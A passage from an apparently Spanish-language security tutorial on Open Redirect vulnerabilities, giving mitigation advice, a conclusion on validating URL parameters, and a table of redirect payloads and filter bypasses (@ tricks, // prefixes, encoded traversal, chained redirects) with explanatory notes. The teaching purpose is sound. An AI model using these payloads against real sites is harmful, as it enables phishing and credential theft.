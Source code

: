 Si la redirección a sitios externos no es necesaria para la funcionalidad de tu sitio web, simplemente desactívala por completo. Esto elimina la vulnerabilidad de raíz.

***

### Conclusión

La vulnerabilidad **Open Redirect** es un fallo de seguridad que permite a los atacantes redirigir a los usuarios a sitios maliciosos mediante la manipulación de parámetros de la URL. Aunque esta vulnerabilidad no es tan grave como otros tipos de ataques, puede ser utilizada de manera efectiva para realizar ataques de phishing, robar credenciales o hacer daño a la reputación de un sitio web.

Es fundamental que los desarrolladores web validen correctamente todas las entradas y redirecciones en su sitio para evitar esta vulnerabilidad. Implementando buenas prácticas de seguridad, como la validación de parámetros de URL y el uso de URLs absolutas, los desarrolladores pueden prevenir los ataques **Open Redirect** y proteger tanto a los usuarios como a su propia infraestructura web.

## Tabla de payloads y Bypasses

| **Descripción**                                       | **Payload/Bypass**                                                                                | **Explicación**                                                                 |
| ----------------------------------------------------- | ------------------------------------------------------------------------------------------------- | ------------------------------------------------------------------------------- |
| **Redirección a un sitio externo**                    | `https://www.victim.com/redirect?url=http://malicious-site.com`                                   | Redirige al atacante a un sitio malicioso.                                      |
| **Redirección a un sitio malicioso con `@`**          | `https://www.victim.com/redirect?url=http://malicious-site.com@attacker.com`                      | Usa el `@` para intentar engañar el sistema y redirigir a un sitio externo.     |
| **Redirección a un dominio legítimo (mismo dominio)** | `https://www.victim.com/redirect?url=https://www.victim.com/index.php`                            | Redirige al mismo dominio, pero puede ser usado para ocultar un ataque.         |
| **Uso de `//` para evitar validación de dominios**    | `https://www.victim.com/redirect?url=//attacker.com`                                              | Algunas validaciones de URL podrían no manejar correctamente las URLs con `//`. |
| **Redirección por IP (sin dominio)**                  | `https://www.victim.com/redirect?url=http://192.168.1.100`                                        | Utiliza una dirección IP directa en lugar de un nombre de dominio.              |
| **Redirección encubierta utilizando `%2e%2e%2f`**     | `https://www.victim.com/redirect?url=http://attacker.com/%2e%2e%2f%2e%2e%2fmalicious`             | Usa secuencias de escape de URL para tratar de eludir restricciones de URL.     |
| **Redirección doble (encubrir el ataque)**            | `https://www.victim.com/redirect?url=https://attacker.com/redirect?url=http://malicious-site.com` | Una redirección en cadena que lleva a un sitio malicioso.                       |
| **Redirección a una URL con puertos inusuales**       | `https://www.victim.com/redirect?url=http://attacker.com:8000/malicious`                          | Utiliza puertos inusuales para evitar algunas restricciones de filtrado.        |
| **Uso de caracteres especiales (URL encoding)**       | `https://www.victim.com/redirect?url=http://attacker.com%2F%2E%2E%2Fmalicious`                    | Codificación de caracteres especiales para evadir filtros o validaciones.       |

#### Notas importantes:

* **Redirección con `@`**: El uso del carácter `@` puede hacer que el sistema perciba la URL como parte de un subdominio. Esto puede evadir algunas validaciones si estas se enfocan en la parte del dominio.
* **Uso de `//` (doble barra)**: Algunas aplicaciones web pueden fallar al manejar URLs que comienzan con dos barras `//`. Esto puede ser utilizado para redirigir a un sitio externo sin que el sistema detecte el dominio de destino.
* **Secuencias de escape (`%2e%2e%2f`)**: Las secuencias de escape pueden ser utilizadas para intentar evadir filtros que validan URL a nivel superficial (por ejemplo, al detectar `../` como una parte de una ruta local).
* **Redirección en cadena**: Al redirigir a un URL que luego redirige a otro sitio malicioso, puedes evadir filtros de redirección más simples.

#### ¿Por qué evadir las validaciones?

